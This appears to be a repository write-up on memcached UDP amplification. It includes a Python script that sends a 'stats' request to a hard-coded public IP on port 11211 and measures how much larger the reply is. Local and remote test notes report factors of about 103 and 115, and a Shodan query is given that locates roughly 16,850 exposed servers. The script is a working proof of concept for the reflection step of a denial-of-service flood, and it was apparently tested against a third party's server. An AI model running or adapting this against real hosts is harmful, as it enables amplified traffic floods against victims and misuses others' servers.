




# payload
```
import socket
from loguru import logger
import sys
from time import sleep

logger.remove(handler_id=None)
level = "INFO"
logger.add(sink=sys.stdout, level=level)

host='47.104.221.142'
port=11211

def recv_all(sock):
    sock.settimeout(1)
    recv_data = b''
    data_len = 0
    while True:
        try:
            data = sock.recv(1024)
            if data == b'':
                break
            recv_data += data
            data_len += len(data)
        except Exception as e:
            break

    return recv_data, data_len

def handler(msg):

    recv_data = b''
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(msg, (host, port))
    msg_len = len(msg)
    
    data, data_len = recv_all(sock)

    logger.info(f'send_len: {msg_len} -> res_len: {data_len}')
    factor_l7 = data_len / msg_len
    logger.info(f"factor_l7: {factor_l7}")

    sock.close()

get_stats_128_60 = b'\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'

def main():
    msgs = get_stats_128_60
    handler(msgs)

if __name__ == '__main__':
    main()
```

# local test
Complite memcached version 1.6.29.

Run memcached with `./memcached -u root`

The service runs on UDP port 11211 by default.


Sending requests to the service port using payload.py can result in an amplified response, with an amplification factor of about 103.


# remote test

使用shodan搜索`port:11211 product:"Memcached"`，大约能找到16,850个可用的memcached服务


使用`payload.py`向服务端口发送请求，可以得到放大的响应，放大系数约为115
